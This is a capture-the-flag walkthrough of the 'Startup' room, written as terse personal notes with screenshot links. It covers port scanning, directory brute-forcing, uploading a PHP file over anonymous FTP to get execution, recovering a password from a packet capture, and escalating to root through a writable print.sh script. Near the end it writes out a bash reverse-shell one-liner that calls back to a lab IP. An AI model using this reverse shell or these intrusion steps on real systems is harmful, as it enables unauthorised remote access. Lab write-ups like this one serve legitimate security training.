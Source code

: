 startup ctf
- 

1.) nmap scan for open ports, ftp, something with clues
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/10928f6c-fc5a-4747-881a-bc91e7f9b1a8)
- FTP Anonymous login allowed
- let me use gobuster first tho before trying.

2.) gobuster like a boss for those hidden directories
- 
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/65061e45-0cea-47f1-ae45-82ccf5ce2648)
- /files seems nice
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/dc43ff5c-5ba9-41a7-b4c0-afddf3529d0a)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/e54ee8aa-84c7-4ca0-97fe-90bcfbd67ef1)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/99187fe0-18fc-4023-ac59-bd22cf210103)
- i went on a circle run since i thought that Maya would be a user, and used Hydra, wasted my time.

3.) FTP into anonymous.
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/4edaac19-365f-431d-88c6-a8959f413e6e)
- i see that ftp has the same files as the url /files, so correctly thought to use some sort of injection, like PHP injection.
- and back in my nmap scan, it showed how the privleges are with /ftp as a directory
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/0768daef-dc97-4bbe-a820-58a006a075d5)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/88300823-e08c-4727-afdd-dd3e433fca23)
- added the php file to ftp now i will go to the /files url and click on the file
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/2bfcf9a9-cecb-4d9f-b79a-ef12ebfe2dd0)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/2117f7e0-0249-498a-b1e7-2fb1525d5340)

4.) now after finding the recipe, get into or find user.txt through privlege escalation.
- 
- through messing around and seeing the incidents directory, i wanted to grab the wiresharp pcapng file
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/ea897ee7-271b-4026-9539-48634e117b5f)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/21aecb76-6b14-4523-92da-b9b53f8f5536)
- that ip is the website
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/54c34d45-7664-4c1c-a788-eccbe198da92)
- found password for lennie, yes
- 

5.) ssh into lennie
-
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/ff4c7212-26b9-4d1a-8999-7118a612bafe)
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/9bf8f11f-f0ae-4ff3-9677-0c34e4595251)
- found user flag.

6.) root time
-
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/036208da-c5ba-482b-af63-1241495f3280)
-![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/10d7763d-6abd-4590-9786-3ce4d97458a2)
- found my privleges within this file
- since i can edit and write on print.sh, need some sort of bash injection or exploit 
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/8a66baca-6fed-425d-95b5-ec407ea67e4d)
- bash -i >& /dev/tcp/10.2.107.89/9999 0>&1
- vim /etc/print.sh
    - ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/7ec26f77-53a6-4f2d-bd65-ab1caec33f10)
- ![Uploading image.png…]()
- done




